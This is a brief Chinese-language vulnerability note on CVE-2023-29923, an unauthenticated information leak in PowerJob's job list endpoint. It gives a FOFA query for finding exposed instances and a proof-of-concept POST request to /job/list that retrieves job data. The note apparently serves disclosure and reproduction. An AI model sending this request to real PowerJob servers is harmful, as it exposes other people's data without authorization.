

# PowerJob list 信息泄漏漏洞 CVE-2023-29923

## 漏洞描述

PowerJob list接口存在信息泄漏漏洞，攻击者无需通过授权就可以访问授权的接口，获取敏感数据。

## 漏洞影响

```
PowerJob
```

## FOFA

```
app="PowerJob"
```

## 漏洞复现

登陆页面


验证POC

```
POST /job/list
Content-Type: application/json

{"appId":1,"index":0,"pageSize":10}
```

